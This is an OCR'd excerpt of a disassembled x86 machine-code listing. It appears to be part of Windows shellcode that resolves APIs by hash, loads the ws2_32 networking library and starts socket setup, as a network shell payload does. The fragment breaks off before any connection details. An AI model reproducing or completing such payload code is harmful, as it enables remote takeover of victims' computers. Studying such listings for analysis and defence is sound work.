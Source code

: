 00000070  8B048B            mov eax,[ebx+ecx*4]

00000073  01D0              add eax,edx

00000075  89442424          mov [esp+0x24],eax

00000079  5B                pop ebx

0000007A  5B                pop ebx

0000007B  61                popa

0000007C  59                pop ecx

0000007D  5A                pop edx

0000007E  51                push ecx

0000007F  FFE0              jmp eax

00000081  5F                pop edi

00000082  5F                pop edi

00000083  5A                pop edx

00000084  8B12              mov edx,[edx]

00000086  EB8D              jmp short 0x15

00000088  5D                pop ebp

00000089  6833320000        push dword 0x3233

0000008E  687773325F        push dword 0x5f327377

00000093  54                push esp

00000094  684C772607        push dword 0x726774c

00000099  FFD5              call ebp

0000009B  B890010000        mov eax,0x190

000000A0  29C4              sub esp,eax

000000A2  54                push esp

000000A3  50                push eax

000000A4  6829806B00        push dword 0x6b8029

000000A9  FFD5              call ebp

000000AB  6A08              push byte +0x8

000000AD  59                pop ecx

000000AE  50                push eax

000000AF  E2FD              loop 0xae

000000B1  40                inc eax

000000B2  50                push eax
